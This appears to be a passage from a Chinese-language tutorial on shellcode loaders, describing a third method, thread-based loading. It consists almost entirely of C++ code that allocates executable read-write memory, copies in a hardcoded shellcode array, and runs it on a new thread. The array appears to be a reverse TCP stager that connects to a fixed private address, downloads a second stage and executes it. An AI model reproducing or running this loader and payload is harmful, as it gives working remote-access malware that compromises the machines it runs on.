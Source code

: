 

# 3.创建线程加载

上述两种方法都需要将data节的内存设置成可读可写可执行,  以下这段代码的主要作用是在内存中分配一段可执行的内存空间，将buf数组中的内容复制到该内存空间，并创建一个新线程来执行这段内存中的代码

```cpp
#include <Windows.h>

unsigned char buf[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x07\x01\xc7\x49\x75\xef\x52"
"\x8b\x52\x10\x57\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4c"
"\x01\xd0\x8b\x48\x18\x8b\x58\x20\x01\xd3\x50\x85\xc9\x74\x3c\x49"
"\x8b\x34\x8b\x31\xff\x01\xd6\x31\xc0\xc1\xcf\x07\xac\x01\xc7\x38"
"\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89"
"\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12"
"\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f"
"\x54\x68\xd2\x53\x6e\xfc\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29"
"\xc4\x54\x50\x68\x9c\x13\x41\xc4\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f"
"\x9b\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
"\x68\x2c\x9b\xfc\xa4\x50\x58\xff\xd5\x97\x6a\x10\x56\x57\x68\xb6\x59\xc0"
"\x0e\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\xe8\xd9\xce\x36\xff\xd5\x83\xf8"
"\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68"
"\x9c\xed\x92\x66\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\xe8\xd9"
"\xce\x36\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a"
"\x00\x50\x68\x3e\xba\x17\xa3\xff\xd5\x57\x68\xe6\xfc\xe1\xe2\xff"
"\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xfc\xd3\xf4\x5e\x6a\x00\x53"
"\xff\xd5";


void main() {

	// 申请一块可进行读写操作的内存
    LPVOID pMemory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // 将buf数组中的内容复制到刚刚分配的内存中
    RtlMoveMemory(pMemory, buf, sizeof(buf));

    // 创建一个新的线程来执行内存中的代码
    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)pMemory, NULL, 0, NULL);

    // 等待新创建的线程执行完成
    WaitForSingleObject(hThread, INFINITE);

}
```

